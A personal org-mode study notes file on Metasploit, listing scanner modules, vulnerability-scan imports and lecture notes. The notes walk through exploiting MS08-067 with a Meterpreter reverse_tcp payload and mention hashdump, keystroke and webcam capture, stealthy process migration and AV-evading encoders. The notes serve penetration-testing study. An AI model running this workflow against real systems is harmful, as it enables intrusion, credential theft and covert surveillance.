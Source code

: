 #+TAGS: sec_o


* Metasploit							      :sec_o:
GitHub: [[https://github.com/rapid7/metasploit-framework][github.com/rapid7/metaspoit-framework]]
* Cmds
[[file://home/crito/org/tech/cmds/msfconsole.org][msfconsole]]
[[file://home/crito/org/tech/cmds/msfvenom.org][msfvenom]]
* Scanners
mssql_ping - this scanner can be used to determine the tcp port and other details about a running MSSQL
smb_version - this will let you know if a machine has samba running and provide other machine information
ssh_version - this will determine the daemon and ssh version
ftp_version - this will version and fingerprint any running ftp server
anonymous - this will check if the ftp server allows anonymous login
snmp_enum - this will help in detection of devices that are using SNMP 
snmp_login - will use a word list, attempting to login to the device

* Related
- Armitage
- Cobalt Strike
* Description
* Usage
** Vulnerability Scanners
*** NeXpose
- import scan
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
db_import /tmp/host_101.xml
db_hosts -c address,svcs,vulns
#+END_SRC

- scan within msfconsole
#+BEGIN_SRC sh
db_connect postgres:toor@127.0.0.1/msf3
load nexpose
nexpose_connect dookie:s3cr3t@192.168.56.103
nexpose_scan 192.168.56.101
db_hosts -c address
#+END_SRC
Scanning from within the msfconsle whist convenient will produce a less complete scan

*** Nessus
- import scan
#+BEGIN_SRC sh
db_connect postgrs:toor@127.0.0.1/msf3
db_import /tmp/nessus_report_Host_101
#+END_SRC

*** OpenVAS
    
*** Speciality Vuln Scanners
vnc_none_auth - this will scan for VNC server configured without a password (rare as modern VNC servers require password for installation). Possible RealVNC4.1.1
open_x11 - this searches a range of hosts for X11 servers that allow connection without authentication

* Lecture
** [[https://www.youtube.com/watch?v%3DadSQyRPpiBw][Getting Started with Meatasploit - Nathan Sweaney]]
+ Command Line Access
  - msfconsole
  - msfvenom
- msfpayload, msfencode, msfcli have deprecated to msfvenom

+ Terminology
  - Modules
    - Exoplits - take advantage of vulnerability
    - Payloads - does something on the target sys
    - Encoders - bypass av and ids
    - Auxiliary - scanners that aid in discover of certain systems
    - Post - information gathering modules
  - Meterpreter 
    - advanced payload that runs in memory on the target
  - Plugins
    
+ The exploit
  - Target - Unpatched Windows XP Machine
  - Exploit - MS08-067 - MS Server Service Relative Path Stack corruption
  - Payload - Meterpreter
    
- Finding a Module
msf> search MS08-067
This will ouput a description of the exploit with name, disclousure date, Rank, Description

- Set the Module
msf> use exploit/windows/smb/ms08_067_netapi

- View options for module
msf> show options
This will show use the current settings for this module, and is exploit specific

- View possible targets this exploit works on
msf> show targets

- Set the remote host
msf> set RHOST 10.0.1.45

+ Payloads
  - Singles - Simple, self-contained code
    - example: add a user, execute a cmd
  - Stagers - Setup a network connection
    - Examples: TCP lictener on a port, Reverse TCP connection
  - Stages - Advanced payloads sent via stager
    - Examples: VNC server, command shell, Meterpreter

- set payload
> set payload windows/meterpreter/reverse_tcp
never use the default ports, security aware targets maybe monitoring these ports

- show options
> show options
this will now also set the options for the payload

- to run the exploit
> exploit

+ Meterpreter
  - Tons of cmds
    - help
    - OS cmds (cd, ls, pwd, cat, mv, rm)
    - Networking (arp, ifconfig, netstat, portfwd, route)
    - upload/download
    - Record keystrokes, screenshots, webcam, microphone
  - Additional plugins
    
meterpreter> sysinfo - give overview of the system (not much provided win7 or newer)
meterpreter> getpid - get the current pid of meterpreter
meterpreter> migrate 624 - migrate to another process that is less detectable

+ Auxiliary Modules
  - Sniffing
  - Scanning
  - Fuzzing

- Examples
  - tomcat_mgr_login
  - dir_listing
  - vnc_none_auth
  - http_ntlm
  - mssql_exec
    
- Non-Attack
  - scanner/ssh/ssh_version
  - scanner/mssql/mssql_login
  - scanner/ipmi/ipmi_version
  - scanner/http/http_version
  - scanner/snmp/snmp_login

* Tutorial
** [[https://www.youtube.com/watch?v%3D9J2ZrKHk6DQ][Introduction to metasploit - Adrian Crenshaw]]

-running sessions in msf can be viewed with: 
> sessions
this will list any active sessions

- to connect to a session
> sessions -i 1
this will connect us to session 1

- encoders
  - the x86/shikata_ga_nai
    
- windows bax with meterpreter
hashdump
  - this will dump all the user passwords
tspkg - this can be used in metasploit to cra
wdigest

* Books
[[file://home/crito/Documents/Security/Metasploit/Metasploit-The_Penetration_Testers_Guide.pdf][Metasploit - The Penetration Tester's Guide]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Penetration_Testing_Cookbook_2e.pdf][Metasploit Penetration Testing Cookbook]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Toolkit_for_Penetration_Testing.pdf][Metasploit Toolkit for Penetration Testing]]
[[file://home/crito/Documents/Security/Metasploit/Metasploit_Guide.pdf][Metasploit Guide]]

* Links
